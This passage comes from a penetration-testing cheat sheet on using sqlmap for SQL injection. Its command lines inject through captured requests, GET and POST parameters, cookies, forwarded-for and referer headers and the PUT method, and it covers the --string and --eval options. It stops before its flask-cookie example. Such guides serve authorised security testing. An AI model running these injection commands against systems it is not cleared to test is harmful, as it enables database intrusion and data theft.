 # Injection place

## From Burp/ZAP capture

Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --current-user
```

## GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

## POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

## Injections in Headers and other HTTP Methods

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

## Indicate string when injection is successful

```bash
--string="string_showed_when_TRUE" 
```

## Eval

**Sqlmap** allows the use of `-e` or `--eval` to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the **flask cookie session** **is signed by flask with the known secret before sending it**:
